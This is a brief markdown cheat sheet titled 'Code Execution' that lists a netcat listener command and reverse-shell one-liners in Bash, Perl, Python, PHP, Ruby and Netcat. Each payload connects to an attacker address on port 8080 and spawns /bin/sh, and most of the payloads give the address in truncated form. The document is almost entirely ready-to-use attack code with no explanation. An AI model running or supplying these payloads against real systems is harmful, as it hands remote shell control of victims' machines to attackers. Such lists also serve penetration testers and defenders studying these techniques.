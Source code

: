 # Code Execution

## Attacker Listening
```cmd
nc -vv -l -p 8080
```

## Payloads
- BASH
  - ```bash -i >& /dev/tcp/10.20.14.203/8080 0>&1```
- PERL
  - ```perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
- Python
  - ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
- PHP
  - ```php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'```
- Ruby 
  - ```ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```
- Netcat 
  - ```nc -e /bin/sh 10.20.14 8080```
